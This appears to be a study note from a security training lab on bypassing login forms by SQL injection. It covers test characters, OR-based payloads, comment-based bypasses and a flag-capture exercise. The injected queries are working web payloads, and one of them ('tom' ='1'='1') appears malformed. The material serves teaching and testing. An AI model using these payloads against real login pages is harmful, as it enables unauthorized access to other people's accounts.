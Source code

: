 # Subverting Query Logic

## Authentication Bypass

Example of original query at backend.

```sql
SELECT * FROM logins WHERE username='admin' AND password = 'p@ssw0rd';
```

### Test if web is vulnerable to SQLi

| Payload | URL Encoded |
| ------- | ----------- |
| `'`     | `%27`       |
| `"`     | `%22`       |
| `#`     | `%23`       |
| `;`     | `%3B`       |
| `)`     | `%29`       |

> In some cases, we may have to use the URL encoded version of the payload. An example of this is when we put our payload directly in the URL 'i.e. HTTP GET request'.

If it's vulnerable it will throw error instead of intended message 'i.e., login failed, authentication failed, etc.'

```sql
SELECT * FROM logins WHERE username=''' AND password = 'something';
```

### Bypass using OR Injection

```sql
SELECT * FROM logins WHERE username='admin' or '1'='1' AND password = 'something';
```

* If username is `admin`\
  `OR`
* If `1=1` return `true` 'which always returns `true`'\
  `AND`
* If password is `something`

#### Assessment

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption><p>vuln to SQLi</p></figcaption></figure>

```sql
SELECT * FROM logins WHERE username=''' AND password = '';
```

**bypass login**

<pre><code><strong># Username
</strong>asdf' or '1'='1
# Password
asdf' or '1'='1
</code></pre>

```sql
SELECT * FROM logins WHERE username='asdf' or '1'='1' AND password = 'asdf' or '1'='1';
```

<figure><img src="../../.gitbook/assets/image (94).png" alt=""><figcaption><p>Bypassed</p></figcaption></figure>

```
# Username
tom' ='1'='1
# Password
anything
```

since the username query is true by it self, the password could be anything and the statement will still be true.

### Bypass using Comments

We can use two types of line comments with MySQL `--` and `#`, in addition to an in-line comment `/**/`

```shell-session
mysql> SELECT username FROM logins; -- Selects usernames from the logins table 

+---------------+
| username      |
+---------------+
| admin         |
| administrator |
| john          |
| tom           |
+---------------+
4 rows in set (0.00 sec)
```

{% hint style="info" %}
if you are inputting your payload in the URL within a browser, a (#) symbol is usually considered as a tag, and will not be passed as part of the URL. In order to use (#) as a comment within a browser, we can use '%23', which is an URL encoded (#) symb
{% endhint %}

```sql
SELECT * FROM logins WHERE username='admin'-- ' AND password = 'something';
```

#### Assessment

Login as the user with the id 5 to get the flag.

Original query

```sql
SELECT * FROM logins WHERE (username=''' AND id > 1) AND password = 'xxx';
```

Payload

```
# Username
adasdfmin') OR id = 5 -- -
```

Final query

<pre class="language-sql"><code class="lang-sql"><strong>SELECT * FROM logins WHERE (username='adasdfmin') OR id = 5 -- -' AND id > 1) AND password = 'xxx';
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (95) (1).png" alt=""><figcaption></figcaption></figure>



























